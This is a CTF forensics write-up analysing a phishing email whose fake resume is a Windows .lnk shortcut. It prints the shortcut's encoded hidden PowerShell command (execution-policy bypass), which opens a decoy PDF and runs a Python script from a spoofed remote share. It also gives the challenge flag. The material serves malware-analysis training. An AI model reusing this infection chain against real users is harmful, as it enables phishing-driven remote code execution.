

# A new Hire

> **Note:**  
> The challenge can be downloaded here: https://0x42697262.github.io/birbrain/writeups/HackTheBox/_attachments/a-new-hire/forensics_a_new_hire.zip

## Overview

### Description

> The Royal Archives of Eldoria have recovered a mysterious document—an old resume once belonging to Lord Malakar before his fall from grace.
> At first glance, it appears to be an ordinary record of his achievements as a noble knight, but hidden within the text are secrets that reveal his descent into darkness.

This forensics challenge revolves around a job application where an applicant submitted a resume.
However, instead of directly attaching the resume, the email contains a link to download a shortcut (`.lnk`) file.
This shortcut is actually malware—it not only downloads a Python script but also retrieves the original resume PDF to maintain legitimacy.
The goal is to analyze the infection chain and uncover the malicious payload (our **flag**).

## Investigation

I received an SMTP email file named `email.eml`, which can be inspected using the `file` command:

```bash
$ file email.eml
email.eml: SMTP mail, Unicode text, UTF-8 text
```

> **Note:**
> Download the email: https://0x42697262.github.io/birbrain/writeups/HackTheBox/_attachments/a-new-hire/email.eml

The email headers contain Base64-encoded strings, but nothing suspicious stood out.
Proceeding to read the message:

```
Message-ID: <20240101123456.1234567890@mail-sor-f41.eldor.ia>
From: "Elowan" <elowan81@eldor.ia>
To: "Work" <work@eldor.ia>
Subject: Job Application - Resume Review 
Date: Mon, 01 Jan 2024 12:34:56 -0700
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 7bit

Hello Work Team,

I hope this email finds you well. We have received a new application for the open position, and we wanted to bring it to your attention.

The applicant, Lord Malakar, has an extensive background in leadership, strategic planning, and resource management. 
With years of experience commanding large-scale operations, overseeing tactical deployments, and influencing key stakeholders, Malakar believes he would be a strong asset to your organization.

Key Highlights from His Experience:

Strategic Leadership: Spearheaded large-scale initiatives that reshaped industry landscapes.
Crisis Management: Adept at handling high-pressure situations and making decisive calls.
Team Motivation: Known for fostering loyalty and rallying teams toward ambitious goals.
Innovative Thinking: Developed groundbreaking methods to enhance efficiency and control.
We believe Malakar’s skills and experience could be a great fit for your team, and he is eager to discuss how he can contribute to [Company Name]’s continued success.

You can review his resume here:
`storage.microsoftcloudservices.com:[PORT]/index.php`

Please let us know if you would like to proceed with the next steps in the hiring process.

Best regards,
Elowan

PS: Make sure you replace the '[PORT]' with your instance's port. Additionally, make sure that any hostnames that are found point to your instance's IP address!
```

> **Note:**
> The particular address `storage.microsoftcloudservices.com:[PORT]` is running on the docker instance `94.237.57.171:41373`.

### Examining the File

I visited `http://94.237.57.171:41373/index.php` and was presented with a locked resume download page featuring a button labeled **"View Full Resume."**  



After clicking the button and downloading the file, I noticed that it was not a PDF as expected but instead a **Windows shortcut (`.lnk`) file** masquerading as a resume.  

> **Note:**
> Download the Windows shortcut file: https://0x42697262.github.io/birbrain/writeups/HackTheBox/_attachments/a-new-hire/Resume.pdf_.lnk

```bash
$ ls -la
total 2612
drwxr-xr-x 2 chicken chicken     122 Mar 28 01:50  ./
drwxr-xr-x 4 chicken chicken      66 Mar 28 01:50  ../
-rw-r--r-- 1 chicken chicken    3908 Feb 26 17:15  email.eml
-rw-r--r-- 1 chicken chicken    1370 Mar 28 01:23 'Resume.pdf .lnk'
```

To verify the file type:

```bash
 $ file Resume.pdf\ .lnk 
Resume.pdf .lnk: MS Windows shortcut, Item id list present, Has Working directory, Has command line arguments, ctime=Fri Mar 28 01:22:27 2025, atime=Fri Mar 28 01:22:27 2025, mtime=Fri Mar 28 01:22:27 2025, length=0, window=showminnoactive, IDListSize 0x0115, Root folder "20D04FE0-3AEA-1069-A2D8-08002B30309D", Volume "C:\"
```

This confirms it is a Windows shortcut file (`.lnk`).

Inspecting its contents with `strings` reveals Base64-encoded PowerShell commands.

```bash
$ strings Resume.pdf\ .link
/C:\
Windows
System32
cmd.exe
C:\Windows\System32\
/c powershell.exe -W Hidden -nop -ep bypass -NoExit -E WwBTAHkAcwB0AGUAbQAuAEQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMAXQA6ADoAUwB0AGEAcgB0ACgAJwBtAHMAZQBkAGcAZQAnACwAIAAnAGgAdAB0AHAAOgAvAC8AcwB0AG8AcgBhAGcAZQAuAG0AaQBjAHIAbwBzAG8AZgB0AGMAbABvAHUAZABzAGUAcgB2AGkAYwBlAHMALgBjAG8AbQA6ADQAOQA5ADUAMwAvADMAZgBlADEANgA5ADAAZAA5ADUANQBlADgAZgBkADIAYQAwAGIAMgA4ADIANQAwADEANQA3ADAAZQAxAGYANAAvAHIAZQBzAHUAbQBlAHMAUwAvAHIAZQBzAHUAbQBlAF8AbwBmAGYAaQBjAGkAYQBsAC4AcABkAGYAJwApADsAXABcAHMAdABvAHIAYQBnAGUALgBtAGkAYwByAG8AcwBvAGYAdABjAGwAbwB1AGQAcwBlAHIAdgBpAGMAZQBzAC4AYwBvAG0AQAA0ADkAOQA1ADMAXAAzAGYAZQAxADYAOQAwAGQAOQA1ADUAZQA4AGYAZAAyAGEAMABiADIAOAAyADUAMAAxADUANwAwAGUAMQBmADQAXABwAHkAdABoAG8AbgAzADEAMgBcAHAAeQB0AGgAbwBuAC4AZQB4AGUAIABcAFwAcwB0AG8AcgBhAGcAZQAuAG0AaQBjAHIAbwBzAG8AZgB0AGMAbABvAHUAZABzAGUAcgB2AGkAYwBlAHMALgBjAG8AbQBAADQAOQA5ADUAMwBcADMAZgBlADEANgA5ADAAZAA5ADUANQBlADgAZgBkADIAYQAwAGIAMgA4ADIANQAwADEANQA3ADAAZQAxAGYANABcAGMAbwBuAGYAaQBnAHMAXABjAGwAaQBlAG4AdAAuAHAAeQA=
```

Decoding the Base64 payload:

```bash
$ strings Resume.pdf\ .lnk | awk '/powershell.exe/ {print $10}' | base64 -d
[System.Diagnostics.Process]::Start('msedge', 'http://storage.microsoftcloudservices.com:49953/3fe1690d955e8fd2a0b282501570e1f4/resumesS/resume_official.pdf');\\storage.microsoftcloudservices.com@49953\3fe1690d955e8fd2a0b282501570e1f4\python312\python.exe \\storage.microsoftcloudservices.com@49953\3fe1690d955e8fd2a0b282501570e1f4\configs\client.py
```

This payload executes two actions:

1. **Opens `resume_official.pdf`** – Likely a decoy document.
2. **Executes `client.py`** – A Python script hosted on the remote server.

### Examining the Malware

Downloading both files:

* `resume_official.pdf` appears to be a legitimate resume.
* `client.py` is the malware payload.

> **Note:**
> Download the resume: https://0x42697262.github.io/birbrain/writeups/HackTheBox/_attachments/a-new-hire/resume_official.pdf
> Download the python script: https://0x42697262.github.io/birbrain/writeups/HackTheBox/_attachments/a-new-hire/client.py

## Decoding The Flag

The Python script contains a Base64-encoded key and an encrypted payload but due to the size of the script, I won't be including the encrypted binary snippet.

Here's the relevant part of the script:

```python
key = base64.decode("SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==")
```

Then the encoded string can be decoded:

```bash
$ awk -F'"' '/key/ {print $2}' client.py | base64 -d
HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3s!!}
```

**And we have our flag!**
